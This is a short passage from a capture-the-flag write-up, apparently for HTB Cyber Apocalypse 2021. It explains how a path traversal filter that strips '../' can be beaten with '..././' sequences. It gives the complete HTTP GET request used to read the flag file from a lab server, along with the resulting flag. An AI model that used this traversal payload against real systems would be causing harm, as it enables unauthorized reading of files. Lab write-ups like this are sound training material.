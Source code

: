 ![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424055413.png#center)

We can see it replaces "../" with blank so if we submit "..././", it becomes "../" allowing path traversal and access to the flag. The flag was retrieved with single GET request:

```
GET /?lang=..././..././..././flag HTTP/1.1
Host: 139.59.185.150:30822
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.1.715129269.1596907848
Upgrade-Insecure-Requests: 1


```

```
CHTB{b4d_4li3n_pr0gr4m1ng}
```

&nbsp;
## # Caas

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210425030651.png#center)
